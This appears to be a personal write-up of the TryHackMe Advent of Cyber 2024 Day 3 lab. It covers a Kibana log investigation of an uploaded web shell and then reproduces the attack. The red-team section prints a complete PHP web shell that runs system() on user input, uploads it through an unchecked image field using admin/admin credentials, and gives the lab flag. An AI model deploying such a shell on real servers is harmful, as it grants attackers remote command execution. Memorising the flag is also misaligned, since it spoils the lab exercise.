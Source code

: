 # 🎄 TryHackMe Advent of Cyber 2024 – Day 3: Log Analysis Challenge


## Challenge Overview 🎅

Day 3 gave me the chance to wear both blue team and red team hats. The Frosty Pines Resort SOC flagged some suspicious activity on their web server. My job was to figure out how the web shell got there and who accessed it, then take on the role of an attacker to exploit the same vulnerability and grab the hidden flag.

## Objectives 🎯

1. Investigate logs in ELK to figure out how the attack happened.
2. Identify the IP that accessed the web shell.
3. Recreate the attack by exploiting a file upload vulnerability to retrieve the flag.

## Step 1: Investigating the Logs (Blue Team)

### Breaking Down the Process

1. **Access Kibana:**  
   Opened `http://MACHINE_IP:5601` using the browser on the AttackBox. 
2. **Select the Collection:**  
   Chose the **frostypines-resorts** index from the Discover tab.
3. **Adjust the Timeframe:**  
   Set the range to **October 1, 2024, 00:00 – October 3, 2024, 20:00**.
4. **Add Relevant Fields:**  
   Added `requests` and `clientip` fields to focus on the activity we care about.
5. **Narrow the Search:**  
   Searched for `"shell.php"` in the `requests` field to find related logs.

### What I Found
- **Where was the web shell uploaded to?**  
  **Answer:** `/media/images/rooms/shell.php`
- **What IP address accessed the web shell?**  
  **Answer:** `10.11.83.34`

## Step 2: Exploiting the RCE Vulnerability (Red Team)

### Steps to Pull Off the Exploit

1. **Edit the Hosts File:**  
   Added the following to `/etc/hosts`:  
   ```
   MACHINE_IP frostypines.thm
   ```
   This let me access the website by name instead of IP.
2. **Log In to the Site:**  
   Went to `http://frostypines.thm` and logged in with:  
   - **Username:** admin@frostypines.thm  
   - **Password:** admin  
3. **Prepare the Web Shell:**  
   Saved the following PHP code as `shell.php`:
   ```
   <html>
   <body>
   <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
   <input type="text" name="command" autofocus id="command" size="50">
   <input type="submit" value="Execute">
   </form>
   <pre>
   <?php
       if(isset($_GET['command'])) 
       {
           system($_GET['command'] . ' 2>&1'); 
       }
   ?>
   </pre>
   </body>
   </html>
   ```
4. **Upload the Shell:**  
   Uploaded `shell.php` as the room image via the “Add Room” section.
5. **Locate the Web Shell:**  
   Verified it was uploaded to:  
   `http://frostypines.thm/media/images/rooms/shell.php`
6. **Retrieve the Flag:**  
   Accessed the shell and ran the following command:  
   ```
   cat flag.txt
   ```

### The Result
- **What is the contents of the flag.txt?**  
  **Answer:** `THM{Gl1tch_Was_H3r3}`

## Lessons Learned 🌟

### Blue Team Takeaways
- **Log Analysis Is Essential:** ELK made it easier to sift through logs, filter out noise, and pinpoint the attacker’s activity.
- **Adding Context Matters:** Including fields like `requests` and `clientip` helped narrow the search quickly.
- **Correlating Activity:** Connecting requests with specific IPs and actions made the investigation much more effective.

### Red Team Takeaways
- **Unrestricted File Uploads Are Risky:** Not validating uploads is a massive vulnerability that attackers can exploit for RCE.
- **Web Shells Are Simple but Powerful:** A small PHP script can give full control over a system, reinforcing the need for proper server security.
- **Credentials Are Key:** Using weak or default credentials like `admin/admin` is just inviting attackers in.

## Tools 🛠️

- **[Elastic SIEM](https://www.elastic.co/security/siem):** Used for log analysis to track down suspicious activity and access points.  
- **Text Editor:** Created the PHP web shell used in the exploit.  
- **Browser:** Accessed and navigated the Frosty Pines site during the red team portion of the challenge.

## Final Thoughts 🎁

This task showed the importance of seeing things from both perspectives: defending against and exploiting vulnerabilities. ELK made it easier to understand what happened from the logs, and recreating the attack demonstrated how simple mistakes, like not validating uploads, can have serious consequences. I’m excited to see what tomorrow’s challenge brings!

## Table of Contents

- [Main Page](README.md)
- [Day 1: OPSEC Challenge](day1.md)
- [Day 2: Log Analysis](Day2.md)
- [Day 4: Coming Soon!](day4.md)
- [Day 5: Coming Soon!](day5.md)
- [More Days to Come!](#)
